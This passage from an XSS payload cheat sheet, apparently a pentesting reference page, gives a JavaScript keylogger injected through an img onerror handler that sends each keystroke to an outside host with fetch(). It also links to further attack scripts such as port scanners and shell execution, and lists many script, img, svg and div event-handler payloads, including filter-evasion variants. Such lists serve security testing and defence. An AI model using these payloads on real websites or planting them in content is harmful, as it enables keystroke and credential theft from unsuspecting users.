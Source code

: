 ### Javascript keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other ways

More exploits at
[http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint

```javascript
<script>debugger;</script>
```

## XSS in HTML/Applications

### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
```
